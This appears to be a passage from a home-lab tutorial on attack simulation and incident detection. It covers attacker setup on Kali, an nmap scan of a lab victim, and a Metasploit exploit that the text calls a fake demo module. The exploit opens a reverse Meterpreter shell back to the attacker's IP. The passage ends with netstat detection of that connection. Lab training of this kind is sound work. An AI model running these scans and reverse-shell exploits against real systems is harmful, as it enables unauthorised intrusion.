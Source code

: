 #### Commands to Set Up the Attacker (Kali)
```bash
# Update and install tools
sudo apt update
sudo apt install metasploit-framework nmap burpsuite
```

### Step 2: Simulating an Attack

Now, let's have our attacker machine target the victim.

#### Reconnaissance with Nmap
```bash
nmap -sV -p- 192.168.1.100  # Replace with victim's IP
```
**Output Example**:
```
Starting Nmap 7.93 ( https://nmap.org ) at 2025-08-21 14:30 UTC
Nmap scan report for 192.168.1.100
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1
80/tcp   open  http    Apache httpd 2.4.52
3306/tcp open  mysql   MySQL 8.0.33-0ubuntu0.22.04.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Exploiting a Vulnerability with Metasploit
Let's use a fake vulnerability in our WordPress site (for lab purposes).
```bash
msfconsole
use exploit/unix/http/wordpress_plugin_vuln  # Fake module for demo
set RHOSTS 192.168.1.100
set LHOST 192.168.1.101  # Attacker's IP
exploit
```
**Output Example**:
```
[*] Started reverse TCP handler on 192.168.1.101:4444 
[*] Sending payload to 192.168.1.100
[*] Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.100:56789) at 2025-08-21 14:45 UTC
```

### Step 3: Detecting the Incident on the Victim

On the victim machine, let's check for signs of compromise.

#### Checking Network Connections
```bash
netstat -antp
```
**Output Example**:
```
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      1234/apache2
tcp        0      0 192.168.1.100:56789     192.168.1.101:4444      ESTABLISHED 5678/python  # Suspicious connection!
```
